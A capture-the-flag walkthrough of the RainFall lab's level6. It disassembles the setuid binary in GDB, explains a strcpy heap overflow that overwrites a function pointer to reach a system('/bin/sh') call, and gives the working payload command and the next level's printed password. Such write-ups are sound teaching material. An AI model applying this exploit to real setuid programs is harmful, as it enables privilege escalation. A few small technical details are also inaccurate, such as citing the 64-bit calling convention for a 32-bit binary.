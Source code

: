 ## Walkthrough

We list the files in the current home directory.

```bash
level6@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
level6@RainFall:~$ file level6
level6: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xb1a5ce594393de0f273c64753cede6da01744479, not stripped

```

The file is owned by **level7** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

There are 3 interesting functions: `main()`, `m()` and `n()`.

```nasm
gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
```

This function: 

- **Aligns the stack**: Adjusts the stack pointer to ensure it is aligned to a 16-byte boundary, adhering to the System V AMD64 ABI calling convention.
- Allocate memory : Invokes the `malloc()` function twice:
    - The first call requests 64 bytes (0x40 in hexadecimal), storing the returned pointer in `[esp + 0x1c]`.
    - The second call requests 4 bytes (0x4 in hexadecimal), storing the returned pointer in `[esp + 0x18]`.

```nasm
0x080484a5 <+41>:	mov    edx,0x8048468
0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
0x080484ae <+50>:	mov    DWORD PTR [eax],edx

0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
0x080484b3 <+55>:	add    eax,0x4
0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
0x080484b8 <+60>:	mov    edx,eax
0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
```

**Sets up function pointers**:

- Moves the address of the `m()` function (located at `0x8048468`) into the `edx` register.
- Sets the first byte of the memory allocated by the second `malloc()` call to point to `m()`.
- Retrieves the first command-line argument (`argv[1]`) and prepares it for use.

```nasm
 0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
 0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
 0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
```

- Prepares the arguments for the `strcpy()` function.
- Copies the string from `argv[1]` to the memory allocated by the first `malloc()` call.

```nasm
0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
0x080484d0 <+84>:	call   eax
```

- **Calls function `m()`**: Dereferences the function pointer and invokes the function it points to.

The `m()` function:

```nasm
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave  
   0x0804847b <+19>:	ret    
End of assembler dump.
```

This function: 

- **Prepares to print a string**: Loads the address of the string "Nope" (located at `0x80485d1`) into the stack.
- **Prints the string**: Calls the `puts()` function to output the string "Nope" to standard output.

Although it is not called by the program, there is a `n()` function:

```nasm
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.
```

This function:

- **Prepares to execute a shell command**: Loads the address of the string "/bin/sh" (located at `0x80485b0`) into the stack.
- **Invokes the shell**: Calls the `system()` function to execute the `/bin/sh` shell, providing an interactive command-line interface.

### Heap smashing using strcpy() vulnerability

The `strcpy()` function is vulnerable to buffer overflow because it does not check if the `destination` buffer is large enough to contain the `source` string. Similarly, the program does not perform this check before calling `strcpy()` . 

### Overwriting the address

To achieve our goal, we need to craft a string such that the total number of characters printed is `72` which is number of bytes between the pointer of the 1st and 2nd malloc allocation.  

This gives us : 

```bash
'a' * 72
```

### Converting the address

The `n()` function is located at the address `0x8048454`. To properly inject this address, we need to represent it in **little-endian** format, as this is how memory addresses are stored on the target system. The little-endian format for the address `0x8048454` is:  `\x54\x84\x04\x08` .

**Little-endian** is a way of representing multi-byte data in memory where the **least significant byte** (the "lowest" byte) is stored at the **lowest memory address**, and the **most significant byte** is stored at the highest memory address.

```nasm
'\x54\x84\x04\x08'
```

### Final command
```bash
The final command is :
level6@RainFall:~$ python -c "print('a' * 72 + '\x54\x84\x04\x08')" > /tmp/level6
level6@RainFall:~$ ./level6 `cat /tmp/level6`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
